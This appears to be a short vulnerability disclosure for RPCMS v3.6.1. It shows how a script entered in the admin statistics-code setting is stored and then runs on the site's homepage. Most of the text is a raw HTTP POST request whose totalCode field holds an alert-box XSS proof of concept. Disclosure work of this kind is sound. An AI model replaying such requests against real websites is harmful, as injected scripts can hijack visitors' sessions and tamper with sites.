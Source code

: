 RPCMSv3.6.1 has persistent cross site scripting vulnerability in the statistical code function.

in the /admin/index.html directory, modify the statistics code block content

![image-20240425185945292](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240425185945292.png)

```
POST /rpcms/admin/index/webPost.html HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://127.0.0.1/rpcms/admin/index/webset.html
Sec-Fetch-Mode: cors
Origin: http://127.0.0.1
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
X-Requested-With: XMLHttpRequest
Cookie: session-name=MTcxMTUzODU2MXxEWDhFQVFMX2dBQUJFQUVRQUFBal80QUFBUVp6ZEhKcGJtY01CZ0FFYm1GdFpRWnpkSEpwYm1jTUJ3QUZZV1J0YVc0PXyB-2MEmWBEhT2LmkrXFrKm9hHzDFKVLoIWHcrKauUlWQ==; X8Kk_2132_logintime=1713010988; X8Kk_2132_saltkey=sb50OXyE; X8Kk_2132_lastvisit=1713007324; XDEBUG_SESSION=PHPSTORM; PHPSESSID=sgbb1cb5ibsh92vo7t7uevdojs
Content-Length: 719

_t=1714042985639&isDevelop=0&webStatus=0&cateAlias=0&logAlias=0&pageAlias=0&tagAlias=0&commentStatus=0&commentCheck=0&commentCN=0&commentVcode=0&logOrder=id&webName=&webLogo=%2Fuploads%2F202404%2Feaad51b7bcc681b30af114837f4eb686.png&seoTitle=&keyword=&description=&icp=&key=URD9Y0ED-MCQD3A5B-33B0-A754-91AD-7B29C80219CB&totalCode=%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E&closeText=&pagesize=10&pageMax=&fileTypes=rar%2Czip%2Cgz%2Cgif%2Cjpg%2Cjpeg%2Cpng%2Ctxt%2Cpdf%2Cdocx%2Cdoc%2Cxls%2Cxlsx&fileSize=20&logWeight=&api_token_key=&api_max_req=&wap_domain=&wap_template=&id_encrypt_salt=&adminLoginErrMax=&adminLoginErrTime=30&attImgWitch=400&attImgHeight=400&captha_style=1&commentSort=new&commentPage=10&commentInterval=30
```

return to the homepage

![image-20240425185918318](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240425185918318.png)
